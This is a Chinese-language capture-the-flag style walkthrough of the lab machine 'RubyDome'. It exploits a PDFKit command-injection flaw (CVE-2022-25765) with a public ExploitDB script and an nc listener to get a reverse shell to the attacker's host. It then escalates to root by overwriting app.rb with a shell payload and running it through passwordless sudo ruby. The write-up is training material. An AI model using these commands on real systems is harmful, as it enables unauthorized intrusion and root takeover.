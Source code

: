 ```yaml
---
description: Linux - Easy：PDFKit
---
```


# ✔️ RubyDome

## 建立立足点

### 信息枚举

使用Nmap进行开放端口扫描，获得2个开放端口：22和3000

<figure><img src="../.gitbook/assets/1 (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例的“兔子洞”：

<img src="../.gitbook/assets/3 (2).png" alt="" data-size="original">
{% endhint %}

查看3000端口上的Web页面，发现目标是一个可将HTML页面转换为PDF格式的应用：

<figure><img src="../.gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure>

尝试随意输入一个URL（http://127.0.0.1），来触发目标应用抛出错误信息，以进一步收集信息：

<figure><img src="../.gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

查找关于PDFKit相关的已知、公开漏洞，得到：

<figure><img src="../.gitbook/assets/6 (2).png" alt=""><figcaption></figcaption></figure>

本例中，虽为从错误信息中看到任何版本号，但是从初步查找到的公开漏洞的描述信息可得知CVE-2022-25765是针对PDFKit 0.0.0到0.8.7.2版本都适用的，因此可以尝试。

<figure><img src="../.gitbook/assets/7 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

```bash
// 在ExploitDB中查找利用脚本：
searchsploit PDFKit
// 下载利用脚本到Kali本地：
searchsploit -m 51293.py .
```

<figure><img src="../.gitbook/assets/8 (2).png" alt=""><figcaption></figcaption></figure>

查看该脚本的使用方法，供后续构造命令：

<figure><img src="../.gitbook/assets/10 (2).png" alt=""><figcaption></figcaption></figure>

* 参数 -s：设置Kali本机IP和监听的端口
* 参数 -w：设置目标地址和路径（查看目标页面的HTML源码）
* 参数 -p：设置POST的具体参数（查看目标页面的HTML源码）

<figure><img src="../.gitbook/assets/9 (2).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

```bash
// 在Kali上监听端口：
nc -lvnp 4444
// 在Kali中运行利用脚本：
python3 51293.py -s 192.168.45.234 4444 -w http://192.168.225.22:3000/pdf -p url
```

<figure><img src="../.gitbook/assets/11 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/12 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 提升权限

### 本地信息枚举

针对本机进行初步的信息枚举：

```bash
// 简单枚举，若无收获就换工具：
uname -a
find / -perm -u=s -type f 2>/dev/null
sudo -l
```

<figure><img src="../.gitbook/assets/13 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

通过查找目标系统上所有由root用户拥有且设置了SUID位的普通文件，和查看当前用户andrew不需要密码就可以执行的文件/命令，可得出：**当前用户可以在无需密码的情况下，使用sudo ruby来运行app.rb文件**

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

在GTFOBINS 发现可以使用 ruby​​ 获取 shell。

### 漏洞利用

进入到app.rb文件所在的文件夹，查看其权限，可得知当前用户andrew有权写入文件内容：

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

在写入payload之前，先备份一个app.rb.bak文件，再写入payload：

```bash
// 备份:
cp app.rb app.rb.bak
// 写入payload:
echo 'exec "/bin/sh"' > app.rb
```

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

```bash
// 用sudo和ruby运行已重新修改的app.rb文件：
sudo /usr/bin/ruby /home/andrew/app/aap.rb
```

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

